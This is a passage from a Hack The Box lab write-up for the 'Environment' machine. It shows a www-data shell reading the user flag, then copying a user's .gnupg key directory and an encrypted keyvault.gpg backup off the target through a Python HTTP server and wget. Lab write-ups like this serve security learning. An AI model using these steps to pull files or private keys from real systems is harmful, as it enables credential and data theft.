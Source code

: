 ```bash
www-data@environment:/home$ cd hish
cd hish
www-data@environment:/home/hish$ ls                     
ls
backup
exp.sh
user.txt
www-data@environment:/home/hish$ cat user.txt
cat user.txt
 {{REDACTED_FLAG}}
```

So we have access to the user flag in `/home/hish`.

We can perform [Shell Stabilization](../../../3%20-%20Tags/Hacking%20Concepts/Shell%20Stabilization.md) to work better.
# Privilege Escalation
## www-data to Hish

for [Privilege Escalation](../../../3%20-%20Tags/Hacking%20Concepts/Privilege%20Escalation.md), we should start looking to the files we have in the user home directory. A particulary interesting directory is: **.gnupg**.  
This directory stores the cryptographic keys used to encrypt, sign and verify files, and if we check the **“backup”** directory, we would see an encrypted file.

After downloaded the **backup** file and the entire **.gnupg** directory we can start to attempt to decrypt the backup using gpg.

1.  We enter the backup folder, host a [Python](../../../3%20-%20Tags/Programming%20Languages/Python.md) server and `wget` it from our machine:

```bash
www-data@environment:/home/hish/backup$ ls
keyvault.gpg
www-data@environment:/home/hish/backup$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.14.56 - - [06/Sep/2025 00:39:12] "GET /keyvault.gpg HTTP/1.1" 200 -
```

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Machines/Environment]
└─$ wget http://environment.htb:8000/keyvault.gpg
--2025-09-05 16:39:08--  http://environment.htb:8000/keyvault.gpg
Risoluzione di environment.htb (environment.htb)... 10.10.11.67
Connessione a environment.htb (environment.htb)|10.10.11.67|:8000... connesso.
Richiesta HTTP inviata, in attesa di risposta... 200 OK
Lunghezza: 430 [application/octet-stream]
Salvataggio in: «keyvault.gpg»

keyvault.gpg             100%[==================================>]     430  --.-KB/s    in 0s      

2025-09-05 16:39:08 (22,6 MB/s) - «keyvault.gpg» salvato [430/430]
```
